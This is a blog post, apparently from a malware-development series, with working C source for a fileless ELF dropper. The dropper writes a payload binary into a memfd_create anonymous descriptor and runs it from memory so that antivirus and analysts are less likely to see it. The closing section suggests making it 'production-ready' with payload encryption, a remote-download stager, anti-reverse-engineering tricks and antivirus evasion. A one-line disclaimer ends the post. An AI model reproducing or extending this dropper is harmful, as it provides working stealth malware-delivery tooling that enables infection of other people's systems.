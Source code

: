 ```yaml
---
layout: post
category: Malware
tags: [hacking, programming, malwaredev]
---
```


# Introduction

A dropper is a program that is used to execute malicious code on a
computer. It is a kind of installer, that hides the malware from the
antivirus system, and the analyst.

In a [previous blog post]({% post_url 2023-02-02-a-dropper-in-golang
%}), i described a dropper that I designed in Golang. It had (at
least) two drawbacks:

- The malware that is delivered needs to be in the form of position independent
  code, with all data inlined, so-called shellcode. While this works
  for a proof of concept, it cannot be used to drop ELF files. Thus,
  the malicious code, such as a stealer or remote access trojan needs
  to be converted to shellcode before it can be dropped with the
  previous dropper. That is cumbersome, especially for large programs.
- The malicious code in the previous dropper was file-backed. In
  contrast, a fileless dropper executes the payload in memory only and
  thus is harder to detect.

This blog post takes care of both these drawbacks by describing a fileless ELF dropper.
As the terminology in this area is not standardized, we could also call it a userspace
exec implementation in memory.

# The Payload
First of all we need a payload that we can drop.
While a real payload of a dropper has some malicious purpose such as
stealing credentials, as we are concentrating on the dropper we will
use a small harmless payload.

{% highlight C %}
// compile with gcc payload.c -o payload
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    char buffer[1024];
    ssize_t len = readlink("/proc/self/exe", buffer, sizeof(buffer) - 1);

    if (len != -1) {
        buffer[len] = '\0';
        printf("My executable's file path is: %s\n", buffer);
    } else {
        perror("Error reading executable path");
    }
    return 0;
}
{% endhighlight %}

This payload returns the executable's own file. While
it may be possible to write this as shellcode in assembly, it
is clear that larger programs become more cumbersome. That is the
motivation for dropping ELF files directly.

```
$ gcc -o payload payload.c 
$ ./payload 
My executable's file path is: /home/user/<redacted>/payload
```

We can get the content of the payload binary as a static C array
using `xxd` as follows.

```
$ xxd -i payload
unsigned char payload[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  ....
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};
unsigned int payload_len = 23592;
```

# The Dropper
Now, on to designing the dropper.
The idea is to create an anonymous file descriptor using
`memfd_create()`. We write the ELF binary to this file
descriptor. Consequently the ELF is not backed by memory, but resides
only in RAM.
The binary is then available in `procfs` at `/proc/self/fd/%i`, where
`%i` is the return value of `memfd_create()`.
Consequently, we can execute it using `execl()`.

And that is basically everything there is to it.

{% highlight C %}
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>


unsigned char payload[] = {
  0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
  ....
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};
unsigned int payload_len = 23592;

int main() {
    // Create an anonymous file descriptor
    int memfd = memfd_create("", MFD_CLOEXEC);
    if (memfd == -1) {
        perror("memfd_create");
        exit(EXIT_FAILURE);
    }

    // Write the payload to the memfd file descriptor
    write(memfd, payload, payload_len);

    // Create the string describing the file descriptor
    char * p;
    asprintf(&p, "/proc/self/fd/%i", memfd);

    // Execute the ELF binary at the anonymous file descriptor
    if (execl(p, NULL) == -1) {
        perror("execl");
        exit(EXIT_FAILURE);
    }

    // This code will not be reached if fexecve is successful
    exit(EXIT_SUCCESS);
}
{% endhighlight %}

Running the code looks as follows.

```
$ gcc -o dropper dropper.c 
$ ./dropper 
My executable's file path is: /memfd: (deleted)
```

# Further Ideas
As the code shown covers only the dropping, i will add some points
that should be included to make the code more production-ready.

- *Obfuscation:* In the version shown above, the ELF file sits naked in
  the binary file of the dropper as a static array. This can be improved by using
  obfuscation based on base64 encoding or an encryption algorithm such
  as AES or RC4. Then, the ELF file is included in the dropper in
  obfuscated form, and before writing it to the anonymous file handle,
  it is deobfuscated.
- *Download ELF:* Another idea is to not have the ELF file in the
  binary at all, but use a stager instead. The stager connects to a
  remote server, receives the (obfuscated) binary, and executes
  it. This way, the binary is not included in the original dropper.
- *Anti-RE:* Currently, the code is easy to analyze using a
  debugger. Some anti-reverse engineering tricks could be added to spice
  things up.
- *Stealthiness:* The shown trick is nearly only used by malware, and
  thus antivirus software will probably flag it. I am not yet sure how
  to improve that.

# Epilogue
With great power comes great responsibility.
Do not use this for malicious purposes and don't be a jerk.

# Some References
- https://grugq.github.io/docs/ul_exec.txt
- https://stackoverflow.com/questions/63208333/using-memfd-create-and-fexecve-to-run-elf-from-memory
- https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html
- https://0x00sec.org/t/super-stealthy-droppers/3715
- https://www.guitmz.com/running-elf-from-memory/
